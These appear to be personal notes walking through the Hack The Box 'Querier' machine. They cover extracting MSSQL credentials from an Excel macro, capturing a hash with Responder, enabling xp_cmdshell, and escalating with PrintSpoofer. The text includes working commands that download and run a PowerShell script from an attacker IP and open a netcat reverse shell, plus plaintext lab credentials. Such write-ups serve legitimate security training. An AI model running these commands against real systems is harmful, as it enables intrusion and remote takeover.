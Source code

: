 # Enumeration 

## open ports

```
135/tcp  open  msrpc         Microsoft Windows RPC                                                                                               
445/tcp  open  microsoft-ds?                                                                                                                     
1433/tcp open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM 

5985/tcp  open  wsman
47001/tcp open  winrm

```

### Port 445
![[Pasted image 20230119084958.png]]

we can access Reports
seems like it's workbook is passsword protected 
First change file extension to zip
unzip it and go to xl file
open vbaProject.bin using HxD hex editor 
search for
![[Pasted image 20230119102449.png]]
and change it to DPX
![[Pasted image 20230119102517.png]]

now we can access the code of workbook
Inside xlsm file we found 

![[Pasted image 20230119103116.png]]


The code is connecting to a SQL Server database. The following are the credentials extracted from the code:

Server: QUERIER
Database: volume
Username: reporting
Password: PcwTWTHRwryjc$c6

![[Pasted image 20230119111718.png]]

using [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
![[Pasted image 20230119113513.png]]
starting responder

`sudo responder -I tun0`
![[Pasted image 20230119113542.png]]

![[Pasted image 20230119113556.png]]

cracking the hash
![[Pasted image 20230119113645.png]]

connect to mssql
![[Pasted image 20230119114858.png]]

![[Pasted image 20230119115005.png]]



```
sp_configure 'show advanced options', '1'
RECONFIGURE
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
EXEC master..xp_cmdshell 'whoami'
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.16.19/rev2.ps1") | powershell -noprofile'
```

![[Pasted image 20230119115538.png]]




# Privesc 


![[Pasted image 20230119115618.png]]

Cos it's windows server 2019 juicy potato won't work so we will use print spoofer 



On attacker:
```
nc -lvnp 9002
```

On Target:
```
cd C:\Windows\System32\spool\drivers\color
IWR -Uri http://10.10.16.19/nc.exe -OutFile nc.exe
IWR -Uri http://10.10.16.19/PrintSpoofer64.exe -OutFile sp.exe
.\sp.exe -c "C:\Windows\System32\spool\drivers\color\nc.exe 10.10.16.19 9003 -e cmd"
```

![[Pasted image 20230119125033.png]]

![[Pasted image 20230119125132.png]]




# Loot

mssql creds:
	username: reporting
	Password:PcwTWTHRwryjc$c6

mssql-svc service creds:
	username: mssql-svc
	password:corporate568



---
Tags: #ctf #htb #mssql #printspoofer #responder #Token_impersonation #xls #VBScript #responder #hash_capture 
Resources: [Querier](https://app.hackthebox.com/machines/175)